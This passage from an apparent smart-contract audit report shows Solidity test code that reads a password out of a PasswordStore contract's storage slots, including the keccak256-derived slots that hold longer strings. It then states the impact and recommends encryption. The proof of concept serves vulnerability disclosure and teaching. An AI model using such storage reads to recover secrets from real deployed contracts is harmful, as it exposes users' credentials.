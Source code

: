 - If the password fits in the 32 bytes slot, then it will be present at the slot 1 (in reference with the PasswordStore contract).
So, we can easily get it by: 
```solidity
function test_GetPassword() public view {        
    uint256 zero = 0;
    bytes32 slot = bytes32(zero + 1);                                        // Storage slot 1
    bytes32 data = vm.load(address(passwordStore), slot);         // Getting data at storage slot 1
    string memory passwd = string(abi.encodePacked(data));                     // Converting to string
    console.log(passwd);
}
```

- But if the password can't fit in the 32 bytes slot, then the storage slot changes where password is stored, and slot 1 will only contain the length of string.

```solidity
function test_GetPasswordTwo() public view {
    uint256 zero = 0;

    bytes32 firstSlot = keccak256(abi.encode(zero + 1));               // Now the password is stored at keccak256 of slot 1
    bytes32 bytesPassword = vm.load(address(passwordStore), firstSlot);  // Get the data from that slot
    string memory passwd = string(abi.encodePacked(bytesPassword));
    console.log(passwd);

    // If the password is big and it can't fit in firstSlot, then it is continued in previous slot (i.e. firstSlot) + 1
    bytes32 secondSlot = bytes32(uint256(firstSlot) + 1);          
    bytes32 bytesPassword2 = vm.load(address(passwordStore), secondSlot);
    string memory passwd2 = string(abi.encodePacked(bytesPassword2));
    console.log(passwd2);
}
```

And if the password still can't be stored in secondSlot, then the next slot will be previous slot (i.e. secondSlot) + 1, and so on.



## Impact
Bad impact on user's accounts, as anyone can use the password to authenticate to user's accounts.

## Tools Used
Manual Review

## Recommendations
To encrypt the password with user's public key, so that only the user can decrypt it with their private key.
## <a id='H-02'></a>H-02. The password set by PasswordStore::setPassword() can be viewed by anyone.            
